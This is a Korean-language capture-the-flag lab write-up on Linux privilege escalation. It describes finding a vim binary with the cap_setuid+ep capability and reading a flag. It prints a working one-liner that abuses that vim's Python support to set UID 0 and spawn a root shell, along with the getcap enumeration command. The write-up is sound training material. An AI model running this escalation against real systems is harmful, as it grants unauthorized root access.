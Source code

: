 # Linux Privilege Escalation: Capabilities
> `vim` 바이너리에 Capabilities가 부여되어 있는 점을 악용하여 루트 권한 획득 및 플래그 탈취에 성공하였다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.175.127
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **권한 상승 방법**: Capabilities가 설정된 `vim`을 통한 루트 쉘 획득
- **실습 일자**: 2025-04-19

---

## 2. 실습 과정

### 2.1 SSH 접속
```bash
ssh karen@10.10.175.127
```
- karen 계정으로 타겟 머신에 SSH 접속하였다.

![SSH 접속](./screenshots/ssh_connect.png)

---

### 2.2 Capabilities 권한이 설정된 바이너리 검색


```bash
getcap -r / 2>/dev/null
```
- 시스템 전반에서 Capabilities가 부여된 파일을 검색한 결과 `/home/karen/vim` 바이너리에 `cap_setuid+ep` 권한이 부여되어 있음을 확인하였다.

![Capabilities 검색](./screenshots/cap_setuid+ep.png)

---

### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 `vim` 명령어에 `cap_setuid+ep` Capabilities가 부여되어 있을 경우 Python을 통해 루트 권한으로 쉘을 실행할 수 있다는 점을 확인하였다.

---

### 2.4 루트 쉘 실행

- 우선 `/home/karen/vim` 바이너리를 vi 편집기로 열어 `:version` 명령어를 실행하여 `+python3` 기능이 포함되어 있음을 확인하였다. 이는 GTFOBins의 루트 쉘 실행 코드가 정상 동작할 수 있는 환경임을 의미한다.

![vi으로 버전 확인](./screenshots/vim_version.png)

```bash
/home/karen/vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
- Capabilities 권한을 가진 vim을 통해 Python3 모듈로 UID를 0으로 설정하고 쉘을 실행함으로써 루트 권한을 획득하였다.

![루트 쉘 실행](./screenshots/shell_start.png)

---

### 2.5 플래그 파일 찾기 및 획득
```bash
find / -name flag4.txt
cat /home/ubuntu/flag4.txt
```
- 루트 권한으로 시스템 전체를 검색하여 `/home/ubuntu/flag4.txt` 플래그 파일을 찾고, 내용을 확인하였다.

![플래그 획득](./screenshots/root_flag.png)


---

## 느낀 점

실습을 통해 **Capabilities가 부여된 명령어 또한 루트 권한 상승에 직접적으로 사용될 수 있는 보안 위협이 될 수 있다는 점**을 확인하였다. 특히 텍스트 편집기인 `vim`과 같이 평범해 보이는 프로그램이라도 **`cap_setuid+ep` 권한이 존재할 경우 Python 모듈을 통해 손쉽게 루트 쉘 획득이 가능한 매우 치명적인 취약점**으로 이어질 수 있었다.

